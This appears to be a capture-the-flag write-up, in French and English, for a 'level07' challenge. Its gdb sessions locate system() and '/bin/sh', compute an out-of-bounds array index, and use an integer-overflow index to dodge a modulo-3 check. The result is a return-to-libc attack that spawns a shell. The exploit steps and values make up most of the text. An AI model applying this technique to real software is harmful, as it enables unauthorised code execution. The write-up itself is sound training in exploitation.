 index overflow
pas d'utilisation possible de l'env car clear au début du code !!


### Find occurence of /bin/sh

(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) print &system  
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) 

system address : 0xf7e6aed0
bin/sh address : 0xf7f897ec

### Find EIP of main function
(gdb) b main
Note: breakpoint 1 also set at pc 0x8048729.
Breakpoint 3 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 
Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) 

=> eip address 0xffffd70c de la fonction main
0x8048741
### Find address of tab[100]

address is 0xffffcd24

```
gdb
start 
disas main 

   0x080488df <+444>:   test   %eax,%eax
   0x080488e1 <+446>:   jne    0x80488f8 <main+469>
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
   0x080488ef <+460>:   mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:   jmp    0x8048965 <main+578>
   0x080488f8 <+469>:   lea    0x1b8(%esp),%eax
   0x080488ff <+476>:   mov    %eax,%edx
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi

   b*0x080488ea
   r
   x $eax
=> 0xffffd544:     0x00000000

```

### Calculate tab index to overwrite

interval between eip and tab 0xffffd70c - 0xffffd544 = 0x9E8 = 456 / 4 = 114
On divise par 4 car index d'int donc 4 bytes

### Set sellcode to eip+8

0xf7f897ec => 4160264172

insruction : store
number : 4160264172
index : 116 (eip + 2 * 4)

### Set system address to eip

0xf7e6aed0 => 4159090384

insruction : store
number : 4159090384
index : 114

problème : 114 est divisible par 3
(UINTMAX + 1) + 456 = 456
(4294967295 + 1 + 456) / 4 = 1073741938

and then quit and we get a shell 

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue